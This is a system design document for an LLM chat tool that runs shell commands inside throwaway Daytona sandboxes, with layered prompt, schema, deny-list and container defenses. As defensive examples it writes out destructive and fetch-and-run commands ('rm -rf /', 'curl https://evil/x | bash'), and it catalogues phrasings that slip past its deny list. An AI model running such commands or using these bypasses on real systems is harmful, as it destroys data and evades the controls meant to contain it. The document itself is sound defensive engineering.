

# Sandbox Mode System Design

## Purpose

This document describes the system-level isolation guarantees that the SysTify sandbox chat mode runs inside, and the responsibilities split between Daytona (the sandbox provider), Systify's backend (the chat tooling layer), and the LLM itself.

The companion `sandbox-mode-security-system-design.md` covers the *content* boundary — how secrets that flow through the LLM are kept out of durable storage. This document covers the *runtime* boundary — what the LLM can and cannot do inside a sandbox once it has the `read_file`, `list_dir`, and `run_shell` tools.

The primary motivation for this document is Plan 08, which introduces the `run_shell` tool. `run_shell` is a meaningful capability widening compared to `read_file` / `list_dir`: composition of `grep` / `find` / `git log` lets the LLM ask questions about the repository that the read tools alone cannot answer, but it also means the LLM can attempt arbitrary shell pipelines. The defenses below are layered so a regression in any single layer (a deny-list bypass, a buggy timeout, a removed truncation cap) does not unilaterally widen what the LLM can achieve.

## Scope

- The execution environment of a single Daytona sandbox the LLM is talking to during a chat reply.
- The trust contract between the sandbox tool layer and the LLM.
- The defenses against destructive commands, runaway resource use, and data exfiltration.

Out of scope:

- The Convex backend's own sandboxing (covered by `convex/_generated/ai/guidelines.md` and the chat job lifecycle).
- Per-user / per-workspace cost caps (Plan 10).
- Audit log retention (Plan 12 — see `sandbox-tool-call-audit-log-system-design.md`).
- Network-layer attack mitigation (covered by Daytona's container runtime).

## Defense Layers

The runtime boundary is enforced by four layers, applied in order. Each is independently useful — the LLM never has a single point of failure to bypass.

### Layer 1: System prompt

The sandbox system prompt (in `convex/chat/prompting.ts`) instructs the model to use `run_shell` for read-only inspection only — `grep`, `find`, `git log`, `git diff`, `tree`, `wc`, `head`, `tail`, `cat`, `ls`. It explicitly forbids state-changing commands, package installs, and network egress.

This is the cheapest and most effective layer because the LLM controls what it tries. A model that has internalised "the sandbox is read-only" will not even attempt `apt-get install`, which means we never burn a step (or a deny-list match, or a Daytona round trip) on an obviously-blocked operation.

The prompt also names the structured error envelope shape (`{ ok: false, errorCode, message }`), so when a deeper layer does block a call the model treats the rejection as data and adapts rather than retrying the same shape.

### Layer 2: Zod schema

The `run_shell` tool's input schema in `convex/chat/sandboxTools.ts` enforces:

- `command` is a non-empty string.
- `workdir` is an optional string (whose path validity is checked at the next layer).
- `timeout_seconds` is an optional integer in `[1, SANDBOX_RUN_SHELL_MAX_TIMEOUT_SECONDS]` (currently 60).

Schema-level rejection produces an AI-SDK validation error rather than a tool call, so the LLM sees an immediate hint about what shape of input is expected. This catches most LLM mistakes (string `"30"` instead of integer `30`, negative timeouts, fractional seconds) before the tool body runs.

### Layer 3: Tool layer

The pure-entry function `executeRunShell` in `convex/chat/sandboxTools.ts` enforces every invariant that must hold regardless of where the call came from. Concretely:

1. **Command sanitisation.** Trim surrounding whitespace, reject empty / whitespace-only / NUL-byte-bearing input as `errorCode: "invalid_command"`.

2. **Deny list (`COMMAND_DENY_LIST`).** A regex array that flags obvious destructive patterns — recursive `rm` at root or home, fork bombs, `mkfs`, `dd if=`, system shutdown, block-device redirects, `sudo`, `su -`, `curl|sh`-style RCE, recursive `chmod`/`chown` at root. Each entry pairs the regex with a human-readable reason; the first match short-circuits the call with `errorCode: "command_blocked"` and the reason text.

   The deny list is explicitly *not* a complete sandbox: it is a regex over the raw command string, and a sufficiently determined LLM could rephrase past it (`"r"+"m -rf /"`). That is acceptable because:

   - The primary destructive isolation is Layer 4 (Daytona).
   - The deny list's purpose is to short-circuit the textbook patterns so we don't spend a Daytona round trip and a chat-job step on a guaranteed-bad call.
   - Bypasses are observable: the upstream Daytona call still fails (the sandbox is unprivileged), and Plan 12's `sandboxToolCallLog` will still record the attempt.

   **Known regex gaps that delegate to Layer 4** (catalogued so they do not look like silent failures during incident review):

   | Phrasing                              | Why the regex misses it                                                                                                                          | Layer 4 disposition                                                                                              |
   | ------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------ | ---------------------------------------------------------------------------------------------------------------- |
   | `chmod -R 777 ~`                      | Recursive `chmod`/`chown` regex only targets `/` (root). Home-targeted variants are not blocked at Layer 3.                                      | Sandbox is throwaway and unprivileged; even a successful recursive chmod inside the sandbox dies on auto-delete. |
   | `>> /dev/sda` (append redirect)       | Block-device-redirect regex matches a single `>` only; an append redirect slips through.                                                          | Daytona's unprivileged user has no write capability on host block devices.                                       |
   | `curl x \| tee out \| bash`           | Pipe-to-shell regex requires the `curl/wget/fetch` to feed *directly* into the interpreter; an intermediate `tee` (or any other filter) escapes. | Daytona's network policy (`DAYTONA_NETWORK_ALLOW_LIST`) is the load-bearing block on egress.                     |
   | `xargs sudo rm -rf /`                  | `sudo` regex requires `sudo` at a command-segment start; `xargs` re-invocation defeats the segment anchor.                                       | Sandbox runs as a non-root user; `sudo` exits non-zero before doing anything.                                    |

   These gaps are *features of the threat model*, not bugs: the deny list is a short-circuit for the textbook bad calls, and Layer 4 is the load-bearing barrier. New gaps that emerge in operation should be documented in this table rather than triggering an arms race in the regex array.

3. **Workdir resolution.** The `workdir` argument runs through `resolveSandboxPath`, the same POSIX-only validator that guards `read_file` / `list_dir`. The resolved path is always inside `repoPath`; absolute paths and `..` escape attempts are rejected with `errorCode: "invalid_path"` / `path_outside_repo`.

4. **Timeout clamp.** The model-supplied `timeout_seconds` (or the default 30) is clamped into `[1, SANDBOX_RUN_SHELL_MAX_TIMEOUT_SECONDS]` *inside* the pure entry. Schema rejection (Layer 2) is the first guard; the clamp is the defense-in-depth pin so a future schema relaxation cannot unilaterally widen the window. The clamped value is what the adapter actually receives.

5. **Output cap (`SANDBOX_RUN_SHELL_MAX_OUTPUT_BYTES`).** Daytona returns merged stdout/stderr as a single decoded string. The tool truncates at 32 KiB on a UTF-8 character boundary (no half-character corruption) and appends `[…truncated by SysTify after 32 KB…]` so the LLM knows the visible payload is partial. `bytesReturned` reports the post-truncation length; `totalBytes` reports the full pre-truncation length so Plan 06's tool-call ticker can show the true cost.

6. **Redaction (`redact()` from Plan 05).** The merged output is scanned for credential patterns (`gh[pousr]_…`, `eyJ…\.eyJ…\.…`, `AKIA…`, `xox[baprs]-…`, `Bearer …{20,}`) and matches are replaced with `[REDACTED:<type>]` sentinels before the result reaches the LLM or any persistence layer. The matched-pattern slugs are surfaced as `redactedTypes` in the success envelope so audit consumers (Plan 12) can record *that* something was filtered without learning *what*.

7. **Adapter dispatch.** The pure entry hands the resolved command, absolute workdir, and clamped timeout to `SandboxFsClient.executeCommand`. The adapter (`getSandboxFsClient` in `convex/daytona.ts`) translates `DaytonaTimeoutError` into a `kind: "timeout"` outcome so the tool layer can build a `command_timeout` envelope without importing the Daytona SDK error class. Other Daytona errors (auth, 404, network) keep throwing and are rolled up into `errorCode: "io_error"` by the tool's generic catch.

### Layer 4: Daytona sandbox

The Daytona-managed container is the ultimate enforcement boundary. SysTify configures each sandbox via `provisionSandbox` in `convex/daytona.ts`; the operative defaults (overridable per-deployment via env vars) are:

| Limit                                      | Default                                | Env override                       |
| ------------------------------------------ | -------------------------------------- | ---------------------------------- |
| CPU limit (vCPUs)                          | 2                                      | `DAYTONA_CPU_LIMIT`                |
| Memory limit (GiB)                         | 4                                      | `DAYTONA_MEMORY_GIB`               |
| Disk limit (GiB)                           | 10 (`.env.example` documents 20)        | `DAYTONA_DISK_GIB`                 |
| Auto-stop interval (minutes)               | 10                                     | `DAYTONA_AUTO_STOP_MINUTES`        |
| Auto-archive interval (minutes)            | 1,440 (24 h)                           | `DAYTONA_AUTO_ARCHIVE_MINUTES`     |
| Auto-delete interval (minutes)             | 1,440 (24 h)                           | `DAYTONA_AUTO_DELETE_MINUTES`      |
| Network egress allow list (comma-separated)| empty (= Daytona default policy applies)| `DAYTONA_NETWORK_ALLOW_LIST`       |
| `networkBlockAll`                          | `false` (rely on the allow list)       | n/a (constant in `provisionSandbox`)|

The properties this gives us:

- **Process / resource isolation.** A runaway `find` cannot consume more than the configured CPU and memory budget, regardless of what `run_shell` accepts. The 60 s per-call timeout caps a single call's wall clock; the auto-stop interval caps the sandbox's lifetime if no activity occurs.
- **Throwaway lifecycle.** A sandbox is created for analysis, used for one or more chat replies, then auto-stopped, auto-archived, and auto-deleted. Anything the LLM creates inside the sandbox is gone within the auto-delete window without operator action.
- **Network policy.** The allow list (when set) restricts outbound destinations; an empty allow list combined with the default Daytona policy is the operative posture in development. Production deployments should populate `DAYTONA_NETWORK_ALLOW_LIST` to an explicit allow set (typically just `github.com:443` for clone, plus whatever Systify's analyses need). The system prompt and the deny list both treat network egress as forbidden; the allow list is the network-layer enforcement.
- **Unprivileged execution.** The sandbox runs as a non-root user. `sudo` / `su -` would fail at the OS layer even if they slipped past the deny list. This makes the deny list's privilege-escalation entries an early-rejection optimisation, not a load-bearing security control.

The exact runtime properties of Daytona's container (cgroups version, seccomp profile, AppArmor / SELinux posture, default `RLIMIT_NPROC`) are managed by Daytona and not directly observable from inside SysTify's code. We rely on Daytona's documented isolation model and the auto-stop / auto-delete lifecycle as the high-confidence runtime boundary; detailed measurements (e.g. "is `/proc/self/status` showing `CapEff: 0000000000000000`?") would require an empirical pass against a live sandbox and should be added here if a future incident motivates them.

## Trust Contract Between Layers

The layered design assumes:

- **The system prompt is necessary but not sufficient.** A jailbroken or distracted LLM may attempt to ignore it. We do not treat the prompt as a security control.
- **The schema is for ergonomics, not security.** It catches typos and out-of-range values quickly so the LLM can correct itself, but the same checks are repeated at the tool layer. A deserialisation bug in the AI SDK that bypasses Zod validation would still hit the tool-layer guards.
- **The tool layer is where invariants live.** Every constant that bounds behaviour (deny list, timeout, output cap) is exported from `convex/chat/sandboxTools.ts` so a single audit point — and a corresponding test in `convex/chat/sandboxTools.test.ts` — pins the contract.
- **Daytona is the load-bearing destructive isolation.** If a tool-layer guard fails, the worst case is "the LLM ran a command that the Daytona container refused or whose output we couldn't redact" — not "the LLM altered production state."

## Failure Modes And Their Mitigations

| Failure mode                                                      | Layer that catches it                          |
| ----------------------------------------------------------------- | ---------------------------------------------- |
| LLM tries `rm -rf /`                                              | Layer 1 (prompt) → Layer 3 (deny list)         |
| LLM tries `curl https://evil/x \| bash`                            | Layer 1 (prompt) → Layer 3 (deny list)         |
| LLM tries `cat ../../etc/passwd`                                  | Layer 3 (path resolver)                        |
| LLM tries `cat /etc/passwd` directly                              | Layer 3 (workdir resolver) → Layer 4 (unprivileged user) |
| LLM tries `cd /tmp && curl github.com` (no shell to pipe to)      | Layer 4 (network policy)                       |
| `run_shell` deny list missed a destructive pattern (catalogued gaps in Layer 3) | Layer 4 (Daytona refuses or contains)          |
| LLM wires up an infinite `find /`                                 | Layer 3 (timeout clamp) → Layer 4 (auto-stop)  |
| LLM dumps `cat .git/config` after a clone                         | Layer 3 (Plan 05 redaction) — token replaced by `[REDACTED:github_token]` before reaching `messages` |
| Daytona returns a 5xx mid-call                                    | Layer 3 (`io_error` envelope)                  |
| Daytona times out the call                                        | Adapter (`DaytonaTimeoutError` → `kind:'timeout'`) → Layer 3 (`command_timeout` envelope) |
| Output exceeds 32 KiB                                             | Layer 3 (truncation marker)                    |

## Observability

Each `run_shell` call surfaces three observability signals at the **success** envelope:

- `exitCode`: the process's exit status, which is data, not error. The model uses it to interpret outcomes (e.g. `grep` exit 1 = no matches).
- `durationMs`: wall-clock time from tool dispatch to adapter return. Plan 06's tool-call ticker shows this in the live UI; Plan 13 will aggregate it as a per-command latency metric. **Carried only on the success envelope** — `command_timeout` and `io_error` envelopes do not carry a measured duration. The timeout envelope's duration is implicit (`~timeoutSeconds`); the io-error envelope's "duration" is undefined because the upstream call may have failed before reaching Daytona at all. Plan 06's ticker reconstructs the timeout duration from `timeoutSeconds` rather than relying on a measurement.
- `redactedTypes`: sorted, de-duplicated slug array for any pattern hits.

`logInfo("chat", "sandbox_tool_call", ...)` and `logWarn("chat", "sandbox_tool_error", ...)` are emitted by `convex/chat/generation.ts` for every tool call, with input / output already redacted. Plan 12 lifts the same data into `sandboxToolCallLog` for compliance retention; see `sandbox-tool-call-audit-log-system-design.md` for the full append / retention design.

### `redactedTypes` Persistence Status

`executeRunShell` (and `executeReadFile` / `executeListDir`) compute `redactedTypes` on every success envelope. The slug array is **not** persisted into `messageToolCallEvents` — that table only carries the redacted text in `outputSummary` and discards the matched-type slugs.

This is acceptable because no consumer of `messageToolCallEvents` reads the slug array off the persisted record: the LLM sees `redactedTypes` in the live tool result, and the redacted text retains the `[REDACTED:<type>]` markers that an audit reader can grep.

Plan 12 (`sandboxToolCallLog`) does need the slug array, but it reads it from a different source — the AI SDK's `part.output` payload directly inside the `tool-result` handler in `convex/chat/generation.ts`, via `extractAuditMetadataFromToolOutput`. This keeps the slug array out of the live-ticker table entirely (which has no use for it) while still giving the audit log access to the canonical signal. The redaction runs once (inside the tool's `executeXxx`) and the slugs flow on the in-memory `part.output` reference; `messageToolCallEvents` is left unchanged.

## Open Questions / Future Work

- **Empirical Daytona limits.** The defaults table above documents what Systify configures, but the underlying container (kernel, cgroups, seccomp, capability set) is not directly measured from within Systify. A focused validation pass against a live sandbox — running `cat /proc/self/status`, `cat /proc/self/limits`, and a controlled fork-bomb / `rm -rf` against a non-existent path — would let us replace the "we rely on Daytona's documented isolation" qualifier with concrete observed limits.
- **Per-tool deny lists.** The current deny list is one set of patterns applied uniformly to `run_shell`. If a future tool (Plan 09's degraded `docs` fallback, hypothetical `git_diff`, etc.) is added, this design accommodates a per-tool list without restructuring — each tool's `executeXxx` calls its own deny check.
- **Streaming tool output.** Daytona's `executeCommand` returns the entire result at once. For very long-running inspection tools (e.g. a multi-GB `git log -p`) the LLM cannot react until the call returns. A future enhancement could expose Daytona's PTY surface for streaming, but that materially complicates the truncation and redaction story (we cannot redact a stream we have not finished receiving) and is deferred until there is a concrete need.
- **Cancellation × in-flight `run_shell`.** Plan 07's `cancelInFlightReply` aborts the surrounding `streamText` via `AbortController`, but `SandboxFsClient.executeCommand` does not currently accept an `AbortSignal` — the Daytona SDK's `Process.executeCommand(command, cwd, env, timeout)` has no abort plumbing. Concretely: if a user cancels mid-`run_shell`, the in-flight shell continues running on the Daytona side until its `timeoutSeconds` elapses (worst case 60 s). The downstream effects:
  - The cancelled assistant message is finalised correctly (Plan 07's path runs to completion); the eventual tool-result is dropped by the `if (wasCancelled) break` guard in `convex/chat/generation.ts`.
  - The Daytona compute / token cost for the in-flight call is paid in full.
  - Plan 06's live ticker may briefly show a "running" entry that then disappears without an "end" event, depending on which side wins the race.

  The forward fix is twofold: (1) extend `SandboxShellExecuteOptions` with an optional `signal?: AbortSignal` and thread it through the adapter; (2) when Daytona's SDK exposes an abort hook, wire it to `cancellationController.signal` from `generation.ts` so cancel actually interrupts the underlying shell. Until then, the 60 s cap on `SANDBOX_RUN_SHELL_MAX_TIMEOUT_SECONDS` is the bound on the wasted compute window.
- **`redactedTypes` persistence.** Resolved by Plan 12, but via a different path than originally proposed: the slug array is read directly from `part.output` inside `convex/chat/generation.ts`'s `tool-result` handler (see `extractAuditMetadataFromToolOutput`) rather than persisted on `messageToolCallEvents`. The events table stays focused on the live-ticker contract; the audit log gets the slugs without re-redaction. Documented in `sandbox-tool-call-audit-log-system-design.md`.

## Implementation Pointers

- Tool layer: `convex/chat/sandboxTools.ts`
  - Constants: `SANDBOX_RUN_SHELL_DEFAULT_TIMEOUT_SECONDS`, `SANDBOX_RUN_SHELL_MAX_TIMEOUT_SECONDS`, `SANDBOX_RUN_SHELL_MAX_OUTPUT_BYTES`, `SANDBOX_RUN_SHELL_TRUNCATION_MARKER`.
  - Deny list: `COMMAND_DENY_LIST`.
  - Pure entry: `executeRunShell`.
  - Tool factory wiring: `createSandboxTools`.
- Adapter: `convex/daytona.ts`
  - `getSandboxFsClient` → `executeCommand` translates `DaytonaTimeoutError` to `{ kind: "timeout" }`.
- Prompt: `convex/chat/prompting.ts` — `SYSTEM_PROMPT_SANDBOX`.
- Tests: `convex/chat/sandboxTools.test.ts` (deny list, workdir, timeout, truncation, redaction, exit code), `convex/chat-prompting.test.ts` (prompt invariants), `convex/daytona.test.ts` (clone-time scrub).
